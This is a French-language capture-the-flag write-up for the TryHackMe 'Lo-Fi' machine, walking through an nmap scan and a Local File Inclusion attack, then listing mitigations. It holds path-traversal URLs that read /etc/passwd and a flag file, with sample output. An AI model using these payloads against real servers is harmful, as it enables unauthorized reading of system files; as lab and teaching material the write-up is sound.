 TryHackMe - Lo-Fi Write-Up (FR)

🛠 Informations

Nom de la machine : Lo-Fi

Plateforme : TryHackMe

Difficulté : Facile

Type : Web Exploitation - LFI (Local File Inclusion)


🏁 Objectifs

L'objectif de cette machine est d'exploiter une vulnérabilité LFI (Local File Inclusion) pour récupérer des fichiers sensibles sur le serveur et capturer le flag.

🔍 1. Scan et Reconnaissance

On commence par un scan des ports pour voir quels services sont accessibles.

Scan Nmap

nmap -sC -sV -T4 -p- <IP_de_la_machine>

🔎 Résultat : Le site web est accessible via HTTP sur le port 80.

🌐 2. Analyse du site web

Nous visitons la page principale et analysons l'URL. Nous remarquons que chaque page utilise un paramètre page, par exemple :

http://lo-fi.thm/?page=relax.php

Cela suggère que le site inclut dynamiquement des fichiers PHP.

💥 3. Exploitation - Local File Inclusion (LFI)

Nous testons si la LFI est possible en tentant d'inclure le fichier /etc/passwd.

Test LFI

Nous modifions l'URL comme suit :

http://lo-fi.thm/?page=../../../../etc/passwd

🔎 Résultat : Le fichier /etc/passwd est affiché, confirmant la vulnérabilité !

Extrait du fichier :

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
...

🏆 4. Récupération du Flag

Maintenant que nous avons confirmé la LFI, nous recherchons directement le fichier flag.txt :

http://lo-fi.thm/?page=../../../../flag.txt

🎉 Flag récupéré avec succès !

🔐 5. Protection contre la LFI

Pour éviter ce type de vulnérabilité, voici quelques bonnes pratiques :

Utiliser des chemins absolus et éviter d'inclure des fichiers basés sur l'entrée utilisateur.

Restreindre l'accès aux fichiers sensibles (ex: via des permissions ou un .htaccess).

Filtrer les entrées pour empêcher les séquences ../ qui permettent de remonter dans les dossiers.

Désactiver allow_url_include et allow_url_fopen dans php.ini.

🎯 Conclusion

La machine "Lo-Fi" illustre bien la dangerosité des failles LFI et leur exploitation. En environnement réel, cette vulnérabilité peut mener à l'exposition de données critiques et même à une exécution de code si combinée à d'autres techniques comme le Log Poisoning.

✅ TryHackMe - Lo-Fi complété avec succès ! 🚀
